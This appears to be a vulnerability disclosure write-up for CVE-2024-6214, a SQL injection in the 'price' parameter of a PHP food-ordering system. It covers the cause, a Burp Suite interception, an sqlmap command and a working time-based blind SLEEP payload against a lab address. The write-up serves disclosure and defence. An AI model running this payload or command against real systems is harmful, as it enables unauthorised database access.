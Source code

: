 # SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (add-item)
## CVE-2024-6214

Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: /router/add-item.php

Injection parameter: price


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The price and name fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the admin-page.php. By clicking on **Add**, we can access add-item.php.

`http://172.16.76.1/foms/admin-page.php`

![image](https://github.com/jadu101/CVE/assets/76433661/607b0700-4d8f-4861-a3bc-1f43574e3f25)

We will first intercept the add-item traffic using Burp Suite:

![image-1](https://github.com/jadu101/CVE/assets/76433661/2f15e133-4b3c-4361-9b13-a5558c746485)

Save the intercepted add-item request to a .txt file and execute sqlmap towards it. 

parameter price is vulnerable to time-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms-add-item.txt --batch`

![image-2](https://github.com/jadu101/CVE/assets/76433661/2d2940ac-b925-4994-9bb9-89a897dc9c05)

```
---
Parameter: price (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=asdafsd&price=123 AND (SELECT 1175 FROM (SELECT(SLEEP(5)))jrgF)&action=
---
```
